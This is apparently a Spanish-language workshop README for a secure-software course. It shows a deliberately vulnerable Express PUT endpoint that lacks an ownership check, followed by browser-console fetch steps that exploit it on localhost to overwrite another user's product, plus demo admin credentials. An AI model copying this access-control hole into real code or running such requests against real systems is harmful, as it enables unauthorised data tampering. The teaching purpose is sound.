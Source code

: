 # Taller_3_Software_seguro
Presentación del taller 3, Desarrollo de Software Seguro, elaborado por **Jonathan Martelo**

---

## Escenario de vulnerabilidad 1

Se procede a modificar el código de **`products.js`** colocando el siguiente código en el componente de actualización:

```javascript
// Actualizar producto
// Reemplazar el endpoint PUT en backend/routes/products.js con este código vulnerable
router.put('/:id', verifyToken, (req, res) => {
 const { name, description } = req.body;
 const productId = req.params.id;

 // ¡VULNERABILIDAD! No se verifica si el usuario autenticado (req.user.id)
 // es el propietario del producto (productId).
 // Cualquier usuario autenticado puede modificar cualquier producto si conoce su ID.
 const updateSql = 'UPDATE products SET name =?, description =? WHERE id =?';
 db.run(updateSql, [name, description, productId], function(err) {
   if (err) {
     return res.status(500).json({ error: err.message });
   }
   if (this.changes === 0) {
     return res.status(404).json({ error: 'Producto no encontrado.' });
   }
   res.json({ message: 'Producto actualizado con éxito (¡inseguro!).' });
 });
});
```

Posteriormente se siguen los siguientes pasos:

1. Ejecutar el comando:

   ```bash
   node server.js
   ```

2. Iniciar sesión con las siguientes credenciales:

   | username | password            |
   |----------|---------------------|
   | admin    | admin_password_123  |

3. Acceder a la consola del navegador presionando la tecla **F12**.

4. Ejecutar los siguientes comandos:

   - **Comando**  
     *Allow paste* (en caso de que el navegador no permita pegar el código a copiar).

   - **Comando principal**  

     ```javascript
     fetch('http://localhost:3000/api/products/1', {
       method: 'PUT',
       headers: {
         'Content-Type': 'application/json'
       },
       credentials: 'include', // Envía la cookie de sesión del admin
       body: JSON.stringify({
         name: 'Producto Hackeado',
         description: 'Este producto ha sido modificado por otro usuario.'
       })
     })
     .then(res => res.json())
     .then(data => console.log(data));
     ```

5. Recargar la página e ingresar nuevamente con el perfil de **admin**.

Con estos pasos debería aparecer un producto con la siguiente información:

> **Producto Hackeado**  
> **Este producto ha sido modificado por otro usuario.**  
> **Propietario: user**
